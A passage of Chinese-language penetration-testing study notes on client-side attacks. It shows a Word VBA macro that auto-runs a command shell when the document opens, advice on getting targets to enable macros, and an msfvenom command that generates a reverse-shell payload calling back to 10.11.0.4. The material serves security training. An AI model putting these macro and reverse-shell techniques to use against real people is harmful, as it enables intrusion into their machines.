 ```vbscript
Sub AutoOpen()
	MyMacro
End Sub
Sub Document_Open()
	MyMacro
End Sub
Sub MyMacro()
	CreateObject("Wscript.Shell").Run "cmd"
End Sub
```

`AutoOpen()`函数帮助我们在文档打开时自动执行我们的函数`MyMacro()`

`Document_Open()`函数则让我们，在文档已经打开一个实例然后开启第二个文档实例的时候仍然执行我们的函数。

`MyMacro()`我们的函数，建立windoscript对象运行命令行。

最终，这个文档必须保存为早期的`.docm`或者`.doc`文件，绝对不要保存`.docx`它不支持。

当这个文档被打开时，会收到安全警告，需要用户点击enable才能执行。

虽然运行宏的功能可以通过设置完全禁止，但是大多数情况下用户是使用默认选项，提示运行的。

![image-20200514100208118](assets/6.客户端攻击.assets/image-20200514100208118.png)

在实战中，应在文档或前期阶段，尽量鼓励和暗示目标进行点击才能正常浏览文档。以达到攻击的目的。

#### 攻击利用

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh
```

执行这个命令，截取需要的字符串。

![image-20200514102859961](assets/6.客户端攻击.assets/image-20200514102859961.png)
